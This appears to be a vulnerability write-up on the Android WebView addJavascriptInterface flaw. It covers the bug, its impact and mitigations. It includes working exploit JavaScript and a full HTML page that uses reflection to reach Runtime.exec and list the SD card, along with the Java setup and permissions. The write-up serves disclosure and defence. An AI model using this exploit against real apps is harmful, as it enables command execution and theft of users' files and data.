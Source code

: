 ### Vulnerability Description

A lot of the time we use WebView to display a Webpage,for example many applications in order to achieve the server control, many results page is Webpage, rather than the local implementation, which has many advantages, such as interface change does not need to release a new version, directly modify the line at Server end. With Webpage to display interface, usually are more or less with the Java code have interaction, such as a button click Webpage above, we need to know the button click event, or we have to call a method, make the page to perform some action, in order to achieve these interactions, we usually use JS to achieve, while WebView has provided such a method, the specific usage is as follows: 


	mWebView.getSettings().setJavaScriptEnabled(true);  
        mWebView.addJavascriptInterface(new JSInterface(), "jsInterface");
    
We asked WebView to register a name "jsInterface" of the object, and then can access to the jsInterface object in JS, you can invoke some methods of the object, the final call to Java code, so as to realize the interaction of JS and Java code.
We work together to have a look on the **addJavascriptInterface** method on the Android website description: 

_This method can be used to allow JavaScript to control the host application. This is a powerful feature, but also presents a security risk for applications targeted to API level JELLYBEAN or below, because JavaScript could use reflection to access an injected object's public fields. Use of this method in a WebView containing untrusted content could allow an attacker to manipulate the host application in unintended ways, executing Java code with the permissions of the host application. Use extreme care when using this method in a WebView which could contain untrusted content._

JavaScript interacts with Java object on a private, background thread of this WebView. Care is therefore required to maintain thread safety.
The Java object's fields are not accessible.

 
Simply put, is to use addJavascriptInterface may lead to insecurity, because JS may contain malicious code. This loophole and today we want to say is this, when JS contains malicious code, it can do anything.

--------


### Vulnerablity Impact:
Through the JavaScript, anything can access the device on the SD card, and even contact information, SMS etc.. It's disgusting, quack. 

1. WebView adds a JavaScript object, and the current application with SDCard read and write permissions, or: android.permission.WRITE_EXTERNAL_STORAGE

2. Through the window object can be found in JS, the object "getClass" method, and then through the reflection mechanism, get the Runtime object, then call the static method to run some commands, such as access to the file command.

3. The string returned from the execution command input stream, you can get the information of the file name. Then do what you want to do, good risk. The core JS code as follows: 


         function execute(cmdArgs)  
        {  
            for (var obj in window) {  
               if ("getClass" in window[obj]) {  
                alert(obj);  
                return  window[obj].getClass().forName("java.lang.Runtime")  
                     .getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
              }  
           }  
       }   

------

### Exploitation

In order to prove this loophole, I'm just loading a malicious JS code of the local Webpage, HTML the code as follows:


    <html>  
      <head>  
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">  
        <script>  
          var i=0;  
          function getContents(inputStream)  
          {  
            var contents = ""+i;  
            var b = inputStream.read();  
            var i = 1;  
            while(b != -1) {  
                var bString = String.fromCharCode(b);  
                contents += bString;  
                contents += "\n"  
                b = inputStream.read();  
            }  
            i=i+1;  
            return contents;  
           }  
            
           function execute(cmdArgs)  
           {  
            for (var obj in window) {  
                console.log(obj);  
                if ("getClass" in window[obj]) {  
                    alert(obj);  
                    return window[obj].getClass().forName("java.lang.Runtime").  
                        getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
                 }  
             }  
           }   
            
          var p = execute(["ls","/mnt/sdcard/"]);  
          document.write(getContents(p.getInputStream()));  
        </script>  
      
        <script language="javascript">  
          function onButtonClick()   
          {  
            // Call the method of injected object from Android source.  
            var text = jsInterface.onButtonClick("Text passed in from the JS！！！");  
            alert(text);  
          }  
      
          function onImageClick()   
          {  
            //Call the method of injected object from Android source.  
            var src = document.getElementById("image").src;  
            var width = document.getElementById("image").width;  
            var height = document.getElementById("image").height;  
      
            // Call the method of injected object from Android source.  
            jsInterface.onImageClick(src, width, height);  
          }  
        </script>  
      </head>  
      
      <body>  
          <p>Click on the image to the URL to Java code</p>  
          <img class="curved_box" id="image"   
             onclick="onImageClick()"  
             width="328"  
             height="185"
             src="https://avicoder.me/webview/phuck.png"  
             onerror="this.src='phuckerror.png'"/>  
        </p>  
        <button type="button" onclick="onButtonClick()">Interaction with the Java code</button>  
      </body>  
    </html>  

 1. Please seeexecute()The method, which the traversal of all window object, an object with a getClass method and then find, use this object class, find the java.lang.Runtime object, then call the "getRuntime" static method to get an instance of Runtime, and then call exec () method to execute a command.
 2. getContents()Methods, read from the stream, displayed in the interface.
 3. Key code is in the following sentences

`return      window[obj].getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);`

Java code is as follows: 
 
    mWebView = (WebView) findViewById(R.id.webview);  
    mWebView.getSettings().setJavaScriptEnabled(true);  
    mWebView.addJavascriptInterface(new JSInterface(), "jsInterface");  
    mWebView.loadUrl("file:///android_asset/html/test.html");  

Need to add permissions:  

    <uses-permission android:name="android.permission.INTERNET"/>  
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />  
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />  

------

### Mitigation
-  System Android 4.2 or above
In Android 4.2 or above, Google was modified, the statement on the Java remote method of a @JavascriptInterface, as in the following code: 


    class JsObject {  
       @JavascriptInterface  
       public String toString() { return "injectedObject"; }  
    }  
    webView.addJavascriptInterface(new JsObject(), "injectedObject");  
    webView.loadData("", "text/html", null);  
    webView.loadUrl("javascript:alert(injectedObject.toString())");  

-  System Android 4.2 below

This problem is difficult to solve, but also can not solve.
First of all, we must not call the addJavascriptInterface method. On this issue, the core is to know the JS event this one action, JS interacts with Java we know, there are several, than the prompt, alert, such action would correspond toWebChromeClientMethod, the corresponding class for prompt, which corresponds to theonJsPromptMethod, this method statement as follows: 


    public boolean onJsPrompt(WebView view, String url, String message,   
        String defaultValue, JsPromptResult result)  

By this method, JS can make information (text) transfer to Java, and Java also can get information (text) is transmitted to the JS.
